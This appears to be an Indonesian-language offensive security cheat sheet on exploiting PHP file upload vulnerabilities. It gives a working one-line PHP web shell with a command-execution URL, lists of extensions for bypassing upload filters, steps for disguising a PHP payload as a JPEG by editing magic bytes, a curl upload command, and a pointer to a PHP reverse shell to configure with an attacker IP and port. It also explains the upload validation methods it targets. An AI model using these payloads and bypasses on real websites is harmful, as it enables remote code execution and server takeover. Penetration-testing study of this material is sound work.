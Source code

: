 # File Upload Vulnerability
type: #offensive #fileupload  #rce 
techniques: #rce #reverseshell #exfiltration 
target: #php 

## File Upload
Jika ditangani dengan buruk, bisa membuka vulnerability, contohnya RCE, deface konten, dan menginjeksi web pages sehingga membuka celah XSS dan CSRF.

## Reconnaissance
Classic PHP payload: `recon.php`
```php
<?php
	echo system($_GET["cmd"])
?>
```
Jalankan dengan https://website.com/upload/location/recon.php?cmd=whoami

## Filter dan Validasi
Filter dan validasi dapat dilakukan secara client-side maupun server-side. 

**Extension validation**: Validasi berdasarkan ekstensi file. Windows menggunakan extension validation untuk mengetahui jenis file.
```sh
recon.jpg

```

**MIME validation**: dengan menggunakan MIME (Multipurpose Internet Mail Extension) sebagai identifier dari file pada header. Formatnya adalah `<type>/<subtype>`
![](attachments/uptWRKW.png)

**Magic number validation**: dengan menggunakan magic number dari file, setiap jenis file memiliki magic numbernya sendiri. Linux/Unix menggunakan magic number untuk melakukan validasi jenis file. Contohnya:
```shell-session
89 50 4E 47 0D 0A 1A 0A : PNG
```

**File length filtering**: filter berdasarkan ukuran dari file.

**File name filtering**: tiap file yang terupload pada server harus unik. Biasanya dilakukan dengan memberikan nilai random di belakang nama file. Nama file juga harus disanitasi saat upload agar mencegah "bad characters" yang dapat menyebabkan masalah pada filesystem saat diupload. Contoh:
```shell-session
; 
unicode character
```

**File content filtering** melakukan scan pada seluruh konten dari file yang terupload untuk mencegah spoofing apda extension, MIME type, dan magic number.

## Bypass
File extension
```shell-session
recon.jpg.php
.php, .phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar
```

Menggunakan Burp Suite dan intercept response. 
> Tips:
> Apabila ingin bypass client-side security, setting burp suite untuk menangkap javascript (di bagian intercept > option).
> Gunakan ctrl+f5 untuk mereset cache pada browser, sehingga tidak muncul status code 304 (not modified). Hal ini berguna untuk menangkap dan memodifikasi JavaScript yang akan diambil oleh browser.


==(Untested)== Menggunakan curl, dengan input parameter form id: `filename`
https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76
```sh
curl -F 'img_avatar=@/home/username/Documents/hello.txt' http://website.com/upload
```

Magic number
https://en.wikipedia.org/wiki/List_of_file_signatures
```php
AAAA
<?php
	// payload
?>
```
kemudian buka file dengan hexeditor, ganti hex AAAA `41 41 41 41` menjadi magic number pada file JPEG: `FF D8 FF DB` 
```sh
file recon.php
```

## Exploitation
Reverse shell: revshell.php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
atau di `/usr/share/webshells` pada Kali Linux
Ganti IP address and port
